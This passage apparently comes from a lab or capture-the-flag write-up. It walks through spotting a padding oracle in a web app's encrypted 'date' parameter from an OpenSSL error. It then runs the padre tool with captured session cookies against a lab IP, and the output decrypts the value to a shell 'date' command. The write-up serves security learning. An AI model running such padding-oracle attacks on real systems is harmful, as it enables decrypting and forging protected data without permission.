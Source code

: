 The error `Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length` indicates that the application is **vulnerable to a Padding Oracle Attack (POA)**. This occurs when the server leaks information about padding validation during decryption.

### Key Details:

- **Cryptography Used**:
 - The `date` parameter contains encrypted data (likely AES-CBC mode)
 - Server attempts to decrypt it and reveals padding errors
 - Error message confirms it's using OpenSSL's EVP functions

```mermaid
graph LR
A[Attacker sends<br>modified ciphertext] --> B{Server}
B -->|Valid padding| C[200 OK]
B -->|Invalid padding| D[500 Error<br>with padding message]
D --> A
```


Now that we know the attack path, we need a tool to perform the attack, we can use this:

PADRE: https://github.com/glebarez/padre

In order to use the tool, we need cookies, let's submit the request to our proxy:

![Pasted image 20250611144442.png](../../IMAGES/Pasted%20image%2020250611144442.png)

Get both cookies and use padre:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' '2a1LzN11hzRQ2RKLfxISXUhCo4tNS7BGEhT4a7E7ITg='

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08
```
